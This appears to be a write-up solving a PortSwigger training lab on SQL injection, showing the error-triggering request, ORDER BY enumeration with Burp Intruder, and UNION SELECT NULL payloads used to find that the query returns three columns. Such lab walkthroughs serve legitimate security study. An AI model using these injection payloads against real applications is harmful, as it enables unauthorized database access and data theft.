

# [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.

## Solutions

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```http
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY` and burp's intruder:

    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result:
      
    - => 3 columns

3. But this challenges said that: `To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.`

4. Determining the number of columns using `UNION`:

    - `' UNION SELECT NULL--`
    - `' UNION SELECT NULL,NULL--`
    - `' UNION SELECT NULL,NULL,NULL--`
    - etc.

5. using burp's intruder:

    - positions: `GET /filter?category='+UNION+SELECT+NULL§§-- HTTP/1.1`
    - payloads:

      

    - result:

      

    => Solved
